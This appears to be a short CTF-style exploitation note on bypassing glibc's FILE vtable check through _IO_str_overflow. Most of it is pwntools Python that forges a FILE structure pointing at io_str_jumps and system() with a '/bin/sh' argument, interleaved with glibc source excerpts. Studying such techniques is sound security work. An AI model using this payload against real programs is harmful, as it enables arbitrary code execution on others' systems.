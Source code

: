 ## bypass vtable check
babyprintf shows a way to bypass vtable check.
Another way can be seen [here](http://blog.rh0gue.com/2017-12-31-34c3ctf-300/)

In _IO_str_overflow:
v5=[fp+0x38]
v6=[fp+0x40]-v5
v7=2*v6+100
v6<=v7
call [fp+0xe0](arg: v7)
```python
fake_file = p64(0) + p64(0x61) + p64(0xdeadbeef) + p64(io_list_all-0x10)
fake_file += p64(0xffffffffffffff) + p64(0)*3 + p64((binsh_addr-100)/2)
```
```c
_IO_size_t pos;
pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
        return EOF;
        ......
```
```python
fake_file = fake_file.ljust(0xa0, "\x00")
fake_file += p64(libc_addr+8) #_IO_wide_data
```
satisfied the second condition:
```c
 if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
```
```python
fake_file = fake_file.ljust(0xc0, '\x00')
fake_file += p64(1) #_mode
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(io_str_jumps)
fake_file += p64(system_addr)
payload += fake_file
```